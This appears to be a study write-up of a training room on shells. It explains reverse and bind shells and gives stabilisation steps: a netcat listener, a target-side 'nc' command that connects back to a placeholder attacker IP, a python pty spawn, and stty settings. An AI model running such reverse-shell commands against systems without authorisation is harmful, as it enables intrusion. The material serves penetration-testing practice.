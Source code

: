 
## Task 3 - Types of Shell

Reverse shells are when the target is forced to execute code that connects back to your computer. On your own computer you would use one of the tools mentioned in the previous task to set up a listener which would be used to receive the connection. Reverse shells are a good way to bypass firewall rules that may prevent you from connecting to arbitrary ports on the target; however, the drawback is that, when receiving a shell from a machine across the internet, you would need to configure your own network to accept the shell.

Bind shells are when the code executed on the target is used to start a listener attached to a shell directly on the target. This would then be opened up to the internet, meaning you can connect to the port that the code has opened and obtain remote code execution that way. This has the advantage of not requiring any configuration on your own network, but may be prevented by firewalls protecting the target.


## Task 5 - Shell Stabilisation

Use these links as references.
- [SOCAT linux binary without dependencies](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true){:target="_blank"}
- [SOCAT windows binary without dependencies](https://sourceforge.net/projects/unix-utils/files/socat/){:target="_blank"}

The following are the methods to use netcat reverse/bind shells.

### Method 1 - Python

Mainly for linux targets, as they have python installed by default.

Get the current terminal settings for row and column size using `stty -a`.

Spawn a shell listener using python.
{% capture code %}{% raw %}nc -lnvp <port>{% endraw %}{% endcapture %} {% include code.html code=code %}

On the target, use the following example to send the reverse shell.
{% capture code %}{% raw %}nc <local-ip> <local-port>{% endraw %}{% endcapture %} {% include code.html code=code %}

Use `python` to spawn a `bash` shell.
{% capture code %}{% raw %}python -c 'import pty;pty.spawn("/bin/bash")'{% endraw %}{% endcapture %} {% include code.html code=code %}

Use `TERM` settings to give access to few terminal commands like `clear.
{% capture code %}{% raw %}export TERM=xterm{% endraw %}{% endcapture %} {% include code.html code=code %}

Background the shell using `ctrl + z`. Set `echo` off in own terminal to pass the echo commands to the reverse/bind shell. This also provides access to tab autocomplete, arrow keys, and Ctrl + C to kill processes. Once done, foreground the process to bring the shell back.
{% capture code %}{% raw %}stty raw -echo; fg{% endraw %}{% endcapture %} {% include code.html code=code %}
